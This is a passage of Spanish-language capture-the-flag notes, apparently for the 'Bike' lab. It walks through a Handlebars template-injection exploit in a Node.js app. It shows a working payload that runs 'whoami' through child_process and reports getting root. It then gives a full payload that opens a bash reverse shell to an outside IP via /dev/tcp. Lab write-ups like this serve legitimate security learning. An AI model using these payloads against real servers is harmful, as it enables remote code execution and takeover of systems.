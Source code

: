 ```
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

*Cambie esta linea:*

```
{{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
```

Tuve que usar `process.mainModule.require` en lugar de `require` porque en muchos entornos de Handlebars `require` no está disponible directamente desde el contexto de plantilla, ya sea por sandboxing o por cómo se construyó el entorno. Sin embargo, `process` suele estar expuesto, y a través de `process.mainModule.require` pude cargar módulos de Node.js igual que con `require`.

Cambie `exec` por `execSync` porque `exec` no devuelve el resultado del comando directamente. En cambio, necesita una función extra (llamada **callback**) que se ejecuta después para mostrar el resultado. Como eso no se puede usar dentro de una plantilla, no funciona.
`execSync` sí devuelve el resultado del comando directamente, como un texto, así que puedo mostrarlo en la respuesta del servidor sin complicaciones.
*Igualmente para mandar la [[Reverse shell]]* no hace falta poner el execSync dado que no nos tiene que mandar ningun string en respuesta, eso solamente lo usamos para testear si habia un RCE o no


#### Hacemos la prueba para ver si nos responde que usuario somos por el whoami
Y como se ve, nos responde que somos root
![[Bike11.png]]


------

# [[Reverse shell]] 

Para que ande el payload hay que escapar las comillas internas, esto siempre se pone todo url encodeado
```
email={{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').exec('bash -c \'bash -i >& /dev/tcp/10.10.16.16/443 0>&1\'');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
&action=Submit
```
